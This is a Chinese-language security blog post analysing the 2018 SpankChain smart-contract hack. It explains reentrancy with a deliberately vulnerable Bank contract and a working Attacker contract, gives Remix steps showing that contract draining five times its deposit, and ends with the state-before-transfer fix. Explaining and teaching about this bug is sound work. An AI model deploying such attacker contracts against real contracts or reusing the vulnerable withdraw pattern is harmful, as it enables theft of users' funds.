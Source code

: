 Re-Entrancy！

---

## 前言

在10月8日，区块链项目方SpankChain在medium上发表了一篇文章， 并表明其受到了攻击，导致损失了160多个ETH和一些Token，这次攻击事件，相对来说损失金额是较小的，约4万美元，不过值得一提的是：这次攻击事件的起因与2016年闹得沸沸扬扬的TheDAO事件如出一辙！一共被盗走300多万ETH，更为严重的是还间接导致了以太坊硬分叉...

自那次事件起，以太坊的智能合约开发者大部分都认识到了重入漏洞这类严重问题，而且自那以后也很少有重入漏洞导致资产被窃取的事件，然而相隔两年，悲剧在SpankChain上重演。

## 什么是重入漏洞？

了解重入漏洞是理解这次攻击事件必要的知识储备，所以接下来我们会将该类漏洞进行一个详细解释，让读者深刻理解，已经了解的大佬可直接略过。

在以太坊智能合约中，合约与合约之间是可以互相调用的，在gas足够的情况下，合约与合约之间甚至可以互相循环调用直至达到gas上限，这本身是合理的，但是若循环中会产生敏感操作例如转账，则有可能会导致产生很严重的问题。

还是挺抽象对不对，我们直接来用代码进行解释，引用大佬的一句话。

> **「Talk is cheap. Show me the code」**

**漏洞代码片段：**

```
function withdraw(){
  require(msg.sender.call.value(balances[msg.sender])());
  balances[msg.sender]=0;
}
```

以上是最简化版的withdraw函数，此函数多数在钱包合约、去中心化交易所等合约中实现，目的是为了让用户能进行“提款”，这里的提款是指将智能合约体系内的代币换成通用的以太币。

**漏洞分析：**
前面提到过，合约与合约之间是可以互相循环调用的，只要循环所需的gas不超过gas上限即可，使用call来进行转账可以使用更多的gas，这是以太坊的机制。

但是如上代码片段中犯了一个致命的问题：没有在使用call转账之前将用户的代币余额归零，在循环的过程中，攻击者的账户一直是处于有余额的状态。

**这会导致什么问题呢？**
在前面的章节中我们提到过，在给智能合约转账的时候会触发智能合约的fallback函数，若收款的智能合约在fallback函数中再次调用对方的withdraw函数的话，那将会产生一个循环调用。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181011191014-3a1440c8-cd46-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181011191014-3a1440c8-cd46-1.png)
如图，漏洞合约会不断向攻击者合约转账，直至循环结束(有限循环，以太坊的gas上限不允许出现无限循环）后才将用户代币余额归零。

用DEMO调试复现：

```solidity
contract Bank{
    mapping (address => uint256) public balances;
    function wallet() constant returns(uint256 result){
        return this.balance;
    }
    function recharge() payable{
        balances[msg.sender]+=msg.value;
    }
    function withdraw(){
        require(msg.sender.call.value(balances[msg.sender])());
        balances[msg.sender]=0;
    }
}
contract Attacker{
    address public bankAddr;
    uint attackCount = 0;
    constructor(address _bank){
        bankAddr = _bank;
    }
    function attack() payable{
        attackCount = 0;
        Bank bank = Bank(bankAddr);
        bank.recharge.value(msg.value)();
        bank.withdraw();
    }
    function () payable{
        if(msg.sender==bankAddr&&attackCount<5){
            attackCount+=1;
            Bank bank = Bank(bankAddr);
            bank.withdraw();
        }
    }
    function wallet() constant returns(uint256 result){
        return this.balance;
    }
}
```

本文提供了一份复现DEMO，将上面代码复制至remix IDE中即可对重入漏洞复现并有一个充分的了解。

第一步，使用remix账户列表中的第一个账户扮演受害者来部署漏洞合约以及在漏洞合约中存入一些以太币。
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181011191014-3a3d9644-cd46-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181011191014-3a3d9644-cd46-1.png)

如图，笔者在Bank合约也就是漏洞合约中充值了500wei个以太币。
第二步，使用remix账户列表中的第2个账户来扮演攻击者部署一份攻击者合约。

部署攻击者合约需要填入Bank合约的地址，按如下按钮即可复制地址，然后点击Deploy按钮来部署：
图片.png第三步，部署完之后，在value中填入要向Bank合约充值的数量，然后点击attack函数，**即可窃取相当于充值数额5倍的以太币**，这是由于为了防止超出gas上限，攻击者合约的fallback函数中限制了循环调用次数为5次。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181011191014-3a881bb0-cd46-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181011191014-3a881bb0-cd46-1.png)

这里我们充值了10wei的以太币用于攻击Bank合约，执行attack函数后我们在看看Attacker合约的余额，以此推断是否利用成功。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181011191015-3ac555fc-cd46-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181011191015-3ac555fc-cd46-1.png)

查看wallet，可以看到合约的钱包余额为60，正好多出了充值数的5倍。

## SpankChain重入漏洞分析

有了上面的基础知识接下来就好理解多了，我们先进行一个总结：重入漏洞产生的原因是未在进行转账操作之前进行状态变更操作而在之后进行状态变更操作，这是最根本的原因，换句话说，在进行一个类似于"提现"的操作中，转账只能为最后一个要进行的步骤。

接下来我们要列出几个重要的线索：

SpankChain支付通道合约:
https://etherscan.io/address/0xf91546835f756da0c10cfa0cda95b15577b84aa7#code

攻击者地址:
https://etherscan.io/address/0xcf267ea3f1ebae3c29fea0a3253f94f3122c2199

攻击者恶意合约地址:
https://etherscan.io/address/0xc5918a927c4fb83fe99e30d6f66707f4b396900e

攻击者恶意合约发起的攻击交易:
https://bloxy.info/zh/tx/0x21e9d20b57f6ae60dac23466c8395d47f42dc24628e5a31f224567a2b4effa88#

有上面的线索就很好分析了，我们先来看发起攻击的那笔交易：图片.png

可以看到攻击者先转了5个ETH到他自己部署的恶意合约，然后再通过恶意合约将5ETH转入SpankChain的支付通道合约，最后支付通道合约转出了32次5个ETH到其恶意合约，恶意合约再将总金额32*5=160 ETH转到了攻击者账户中。

我们再来看看攻击者具体的操作：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181011191020-3e31bb86-cd46-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181011191020-3e31bb86-cd46-1.png)

可以看到攻击者先调用了支付通道合约的createChannel函数并转入了5个ETH，然后循环调用了支付通道合约的LCOpenTimeou函数，并一直获取ETH，每调用一次获取5 ETH，一共调用了32次。

我们再来看看这两个函数的具体代码，先来看createChannel函数：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181011191021-3e9d16ec-cd46-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181011191021-3e9d16ec-cd46-1.png)

为方便读者理解，我们将该函数的每一行都进行了注释，简单来说该函数是用于创建一个“安全支付通道”，其原理是先将要转的资金存到支付通道合约中，在规定的时间内收款方才可以收款，超出规定时间发起方可以将转账撤回，支付通道合约相当于一个中转担保的角色。

再来看看LCOpenTimeou函数：
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181011191022-3eea0a4c-cd46-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181011191022-3eea0a4c-cd46-1.png)

该函数相当于提款函数，不过在这个支付通道内的意义为转账超时撤回，就是说通道已经超出其开放时间了，发起方有权将转账撤回，具体漏洞点看红框中的代码以及注释，简单来说就是在发起转账之后才进行状态变更操作，从而引发了重入漏洞。

尽管是在进行转账之后更新的状态，但是上面的代码要形成重入也又一定难度，看第一个红框中的代码，因为该函数里进行ETH转账不是使用的call.value，而是使用的transfer，使用transfer只能消耗2300 GAS，无法构成重入，这也是SpankChain与TheDAO不同的点。

再看第二个红框，其中调用了token的transfer函数，而token是攻击者可控的，调用token合约的transfer函数不会有2300 GAS限制！于是攻击者可以在自己部署的恶意token合约的transfer函数中调用支付通道合约的LCOpenTimeou函数，形成重入循环...

## 解决方案

最根本的解决方案还是在转账之前就把所有应该变更的状态提前更新，而不是在转账之后再进行更新，希望这次事件能让TheDAO惨案不再重演。
